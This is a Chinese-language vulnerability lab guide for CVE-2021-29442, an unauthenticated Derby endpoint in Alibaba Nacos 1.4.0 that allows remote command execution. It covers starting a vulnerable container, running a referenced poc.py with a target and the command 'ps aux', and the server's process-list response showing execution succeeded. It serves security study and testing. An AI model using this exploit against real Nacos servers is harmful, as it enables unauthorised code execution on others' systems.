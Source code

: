 # Alibaba Nacos 未授权接口命令执行漏洞（CVE-2021-29442）

Nacos 是一个设计用于动态服务发现、配置和服务管理的易于使用的平台。

在Nacos 1.4.1之前的版本中，一些API端点（如`/nacos/v1/cs/ops/derby`）可以默认没有鉴权，可以被未经身份验证的用户公开访问。攻击者可以利用该漏洞执行任意Derby SQL语句和 Java 代码。

参考资料：

- <https://github.com/advisories/GHSA-xv5h-v7jh-p2qh>
- <https://github.com/alibaba/nacos/issues/4463>
- <https://github.com/ayoundzw/nacos-poc>
- <http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce>

## 漏洞环境

执行如下命令启动一个 Alibaba Nacos 1.4.0服务器：

```
docker compose up -d  
```

服务器启动后，访问`http://your-ip:8848/nacos/`可以看到 Nacos 的默认登录页面。

## 漏洞复现

执行[POC](poc.py)，`-t`参数指定目标地址，`-c`参数指定要执行的命令：

```
python poc.py -t http://your-ip:8848 -c "ps aux"  
```

`ps aux`命令成功执行后会收到如下响应：

```json
{"code":200,"message":null,"data":""}
{"code":200,"message":null,"data":[{"B":0,"A":"USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMANDroot           1  0.0  0.0 814608  4992 ?        Ss   18:47   0:00 [rosetta] /bin/bash /bin/bash bin/docker-startup.shroot          31 25.5  7.5 10414040 1534908 ?    Sl   18:47   1:14 [rosetta] /usr/lib/jvm/java-1.8.0-openjdk/bin/java /usr/lib/jvm/java-1.8.0-openjdk/bin/java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=9555 -Xms2g -Xmx2g -Xmn1g -Dnacos.standalone=true -Dnacos.core.auth.enabled=true -Dnacos.member.list= -Djava.ext.dirs=/usr/lib/jvm/java-1.8.0-openjdk/jre/lib/ext:/usr/lib/jvm/java-1.8.0-openjdk/lib/ext:/home/nacos/plugins/health:/home/nacos/plugins/cmdb:/home/nacos/plugins/mysql -Xloggc:/home/nacos/logs/nacos_gc.log -verbose:gc -XX:+PrintGCDetails -XX:+PrintGCDateStamps -XX:+PrintGCTimeStamps -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=10 -XX:GCLogFileSize=100M -Dnacos.home=/home/nacos -jar /home/nacos/target/nacos-server.jar --spring.config.location=/home/nacos/init.d/,file:/home/nacos/conf/,classpath:/,classpath:/config/,file:./,file:./config/ --spring.config.name=application,custom --logging.config=/home/nacos/conf/nacos-logback.xml --server.max-http-header-size=524288root         406  0.0  0.0 854552  5504 ?        R    18:51   0:00 ps aux"}]}
```

![](1.png)
